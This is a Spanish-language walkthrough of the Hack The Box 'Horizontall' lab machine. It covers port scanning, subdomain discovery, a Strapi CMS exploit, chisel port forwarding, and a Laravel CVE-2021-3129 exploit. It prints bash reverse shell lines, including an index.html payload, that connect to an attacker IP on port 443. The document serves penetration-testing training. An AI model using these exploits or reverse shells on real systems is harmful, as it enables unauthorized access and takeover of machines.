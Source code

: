 # Horizontall

**Sistema Operativo**: Linux

**Dificultad**: Fácil

**Técnicas Vistas**: Information Leakage /
Port Forwarding /
Strapi CMS Exploitation /
Laravel Exploitation

Te prepara para las **Certificaciones**: eWPT / 
eJPT<br><br>

![image](https://github.com/user-attachments/assets/af9a9961-73a8-482e-9483-ec5ac1a6995a)<br><br>


# Reconocimiento

Utilizando `nmap` escaneamos todos los puertos<br>

![image](https://github.com/user-attachments/assets/aa23cc88-f9cf-4929-9913-555a8cd3d575)<br>

- `-p-` -> Escanea todos los puertos 
- `-sS` -> escaneo de tipo SYN
- `--open` -> Todos los puertos abiertos
- `--min-rate=5000` -> Manda mínimo 5000 paquetes por segundo
- `-Pn` -> Asume que el host especificado está activo
- `-vvv` -> Aplica triple Verbose 
- `-n` -> Que no aplique resolución DNS
- `-oG allports` -> manda todo a un archivo con nombre de "allports"<br><br>


Utilizando `gobuster` encontramos un subdominio `api-prod.horizontall.htb`<br>

![image](https://github.com/user-attachments/assets/bceae454-e614-4ea9-a6da-7f28b16cad69)<br>

- `vhost` ->  Buscar Subdominios
- `-u` -> Indicar URL
- `-w` ->  Indicar diccionario que voy a utilizar
- `-t` -> Numero de hilos que voy a usar
- `--apend-domain` Para que funcione <br><br>


Ponemos el subdominio, y el dominio en `/etc/hosts`<br>

![image](https://github.com/user-attachments/assets/ee8ee5c8-726c-4c46-90c2-d313bafa0ab2)<br><br>



Utilizando `gobuster` encontramos directorios en el subdominio, en `admin` nos lleva al panel de `strapi`<br>

![image](https://github.com/user-attachments/assets/7c5ca97f-6267-4ec3-b44f-18f6fa5fa898)<br><br>


Utilizando `searchsploit` vemos una vulnerabilidad <br>

![image](https://github.com/user-attachments/assets/a915141f-c94d-4e43-a60a-f4eb034f99a6)<br><br>

# Explotación

Nos traemos este exploit<br>

![image](https://github.com/user-attachments/assets/347a27ad-7d73-4fe6-9e02-6e9f21617887)<br><br>


Lo explotamos con `python3` y nos da una consola.<br>

![image](https://github.com/user-attachments/assets/2faac99a-fe79-4d46-8353-431b4f091b07)<br><br>


Enviándonos una bash a nuestra ip por el puerto 443 `bash -c 'bash -i >& /dev/tcp/10.10.14.55/443 0>&1'` Ganamos acceso a la maquina.<br>

![image](https://github.com/user-attachments/assets/0e1e6ebe-d24b-4b96-bb80-a35371fedbf8)<br><br>


# Escalada de privilegios

Flag del usuario:<br>
![image](https://github.com/user-attachments/assets/4b6f34c1-9616-4f00-b971-f47a4275e144)<br><br>


Utilizando `curl` hacemos un: `curl http://localhost:8000` y vemos el "Laravel" vulnerable <br>

![image](https://github.com/user-attachments/assets/605191aa-d9e1-41ee-9aab-9829560027b8)<br><br>


Nos descargamos `chisel`, buscando la version 1.5:
https://github.com/jpillora/chisel<br>


Abrimos el puerto 80:
`python -m http.server 80`<br>


Descargamos `chisel` en la maquina  victima<br>

![image](https://github.com/user-attachments/assets/587b86d2-a600-4918-bbad-e17546867e1d)<br><br>


Abrimos el puerto 1234 con `chisel`<br>

![image](https://github.com/user-attachments/assets/ed8211a2-ad15-41ef-877c-cf1e74e48515)<br><br>


Hacemos nuestro puerto 8000 sea el puerto 8000 de la maquina victima:<br>

![image](https://github.com/user-attachments/assets/23ff05c6-fdf6-4d4a-be45-493836bea0df)<br><br>


Exploit para el Laravel

https://github.com/nth347/CVE-2021-3129_exploit<br>

Utilizando el Exploit abrimos el index.html y  lo interpretamos con bash (debemos estar escuchando por el puerto 443 y hacer `python3 -m htt.server 80` para compartir ese index.html)<br>

![image](https://github.com/user-attachments/assets/b3df619b-6863-4b8a-9cf3-6433437897ba)<br><br>

index.html<br>
```
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.55/443 0>&1

```
<br>

Flag Final:<br>
![image](https://github.com/user-attachments/assets/54f92dd5-895d-4f9e-9417-ba9015b6f2a7)<br><br>

